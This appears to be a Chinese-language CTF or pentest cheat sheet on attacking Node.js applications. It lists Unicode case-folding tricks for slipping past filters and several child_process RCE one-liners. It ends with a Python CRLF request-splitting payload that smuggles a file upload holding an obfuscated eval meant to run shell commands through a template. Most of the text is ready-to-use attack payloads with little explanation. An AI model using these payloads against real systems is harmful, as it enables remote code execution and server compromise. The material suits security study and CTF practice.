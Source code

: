 [Fuzz中的javascript大小写特性 | 离别歌](https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html)

```
"ı".toUpperCase() == 'I'
"ſ".toUpperCase() == 'S'

"K".toLowerCase() == 'k'
```

![image-20230404211326910](../images/image-20230404211326910-1699690994641.png)



RCE

```js
global.process.mainModule.constructor._load(‘child_process’).exec('command')

require( "child_process" ).spawnSync( 'command', ['arg'] ).stdout.toString()

require( "child_process" ).spawnSync( 'command', ['arg'] ).stdout.toString()

require("child_process").execSync('command')

require("child_process").execSync('command')
```





## CRLF

[NodeJS 中 Unicode 字符损坏导致的 HTTP 拆分攻击-安全客 - 安全资讯平台](https://www.anquanke.com/post/id/241429#h2-6)

```python
import urllib.parse
import requests

payload = ''' HTTP/1.1

POST /file_upload HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 298
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: 127.0.0.1:8081
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjgcOqgAmbNWkjnvS
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: 127.0.0.1:8081/?action=upload
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9
Connection: close

------WebKitFormBoundaryjgcOqgAmbNWkjnvS
Content-Disposition: form-data; name="file"; filename="1.pug"
Content-Type: ../template

var x = eval("glob"+"al.proce"+"ss.mainMo"+"dule.re"+"quire('child_'+'pro'+'cess')['ex'+'ecSync']('ls /').toString()")
------WebKitFormBoundaryjgcOqgAmbNWkjnvS--


GET / HTTP/1.1
test:'''.replace("\n", "\r\n")

```